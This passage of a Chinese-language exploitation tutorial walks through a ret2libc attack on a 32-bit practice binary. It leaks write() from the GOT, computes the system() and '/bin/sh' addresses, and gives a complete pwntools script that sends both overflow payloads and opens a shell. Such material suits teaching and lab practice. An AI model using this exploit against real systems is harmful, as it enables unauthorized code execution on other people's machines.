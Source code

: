因为system()函数和write()在libc.so中的offset(相对地址)是不变的，所以如果我们得到了write()的地址并且拥有目标服务器上的libc.so就可以计算出system()在内存中的地址了。然后我们再将pc指针return回vulnerable_function()函数，就可以进行ret2libc溢出攻击，并且这一次我们知道了system()在内存中的地址，就可以调用system()函数来获取我们的shell了。

使用ldd命令可以查看目标程序调用的so库。随后我们把libc.so拷贝到当前目录，因为我们的exp需要这个so文件来计算相对地址：
```
root@bogon:~/Desktop/ROP/linux_x86# ldd level2
	linux-gate.so.1 (0xb7ffe000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e23000)
	/lib/ld-linux.so.2 (0x80000000)
root@bogon:~/Desktop/ROP/linux_x86# cp /lib/i386-linux-gnu/libc.so.6 ./
```

脚本如下：
```
#!/usr/bin/env python
from pwn import *

libc = ELF('libc.so.6')
elf = ELF('level2')

p = process('./level2')
#p = remote('127.0.0.1', 10003)

plt_write = elf.symbols['write']
print 'plt_write= ' + hex(plt_write)
got_write = elf.got['write']
print 'got_write= ' + hex(got_write)
vulfun_addr = 0x08048404
print 'vulfun= ' + hex(vulfun_addr)

payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(got_write) + p32(4)

print "\n###sending payload1 ...###"
p.send(payload1)

print "\n###receving write() addr...###"
write_addr = u32(p.recv(4))
print 'write_addr=' + hex(write_addr)

print "\n###calculating system() addr and \"/bin/sh\" addr...###"
system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
print 'system_addr= ' + hex(system_addr)
binsh_addr = write_addr - (libc.symbols['write'] - next(libc.search('/bin/sh')))
print 'binsh_addr= ' + hex(binsh_addr)

payload2 = 'a'*140  + p32(system_addr) + p32(vulfun_addr) + p32(binsh_addr)

print "\n###sending payload2 ...###"
p.send(payload2)

p.interactive()
```
